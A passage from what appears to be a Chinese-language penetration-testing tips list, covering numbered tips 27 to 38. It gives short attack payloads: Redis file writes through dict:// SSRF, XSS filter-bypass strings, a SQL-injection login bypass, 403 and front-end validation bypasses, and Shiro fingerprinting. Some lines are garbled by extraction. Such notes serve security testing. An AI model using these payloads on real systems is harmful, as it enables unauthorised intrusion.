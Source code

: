 二、GET /xxx HTTP/1.1 à403  
Host: test.com  
绕过：  
GET /xxx HTTP/1.1 à200  
Host: test.com  
Referer: http://test.com/xxx

三、302跳转：拦截并drop跳转的数据包，使其停留在当前页面。  
四、前端验证：只需要删掉对应的遮挡模块，或者是验证模块的前端代码。

27、gopher协议使用限制：  
![640.png][image3]  
28、一款生成gopher协议payload的工具：  
https://github.com/firebroo/sec\_tools

29、Dict协议写入流程：  
1.写入内容；  
 dict://127.0.0.1:6379/set❌test

2.设置保存路径；  
dict://127.0.0.1:6379/config:set:dir:/tmp/

3.设置保存文件名；  
dict://127.0.0.1:6379/config:set:dbfilename:1.png

4.保存。  
dict://127.0.0.1:6379/save

30、CentOS 7系统利用suid提权获取Root Shell  
https://www.freebuf.com/articles/system/244627.html

31、xss中标签利用的payload：  
\<a href=javascript:alert(1)\>xx\</a\>

32、XSS过滤了单引号，等号可以：  
①、使用：String.fromCharCode(97,108,101,114,116,40,49,41);  
为alert(1)，该方法输出的结果为字符串，可以使用eval()进行执行，即弹框操作  
eval(String.fromCharCode(97,108,101,114,116,40,49,41));  
②、atob函数：  
eval(atob\`YWxlcnQoMSk=\`) 为 eval(atob\`alert(1)\`) 其中\`为反引号

33、XSS过滤了单引号，等号以及圆括号，eval：  
①、过滤了eval函数可以用其他函数去绕过，如：Function，constructor  
Function\`a${atob\`YWxlcnQoMSk=\`}\`\`\`  
\`\`.constructor.constructor\`a${atob\`YWxlcnQoMSk=\`}\`\`\`

34、可使用下面命令查看是否处在docker虚拟机中  
cat /proc/1/cgroup

35、万能密码试试`'=0#`  
36、CORS漏洞验证，可以使用curl来验证：  
curl https://www.xxxx.com \-H "Origin: https://test.com" \-I  
检查返回包的 Access-Control-Allow-Origin 字段是否为https://test.com

37、在盲测目标系统是否为Shiro时，可以在Cookie中手动构造`rememebrMe=xxx`，如果返回包中Set-Cookie中存在`rememberMe=deleteMe`，则证明该系统使用了Shiro，因此可以进一步攻击。 38、使用正则获取网站中所包含的其他URL：  
cat file | grep \-Eo "(http|https)://\[a-zA-Z0-9./?=\_-\]\*"\*


[image1]: https://github.com/Power7089/PenetrationTest-Tips/blob/main/img/01cyber.jpg
[image2]: https://github.com/Power7089/PenetrationTest-Tips/raw/main/img/403%E7%BB%95%E8%BF%87.jpg
[image3]: https://github.com/Power7089/PenetrationTest-Tips/raw/main/img/GOpher%E5%8D%8F%E8%AE%AE.png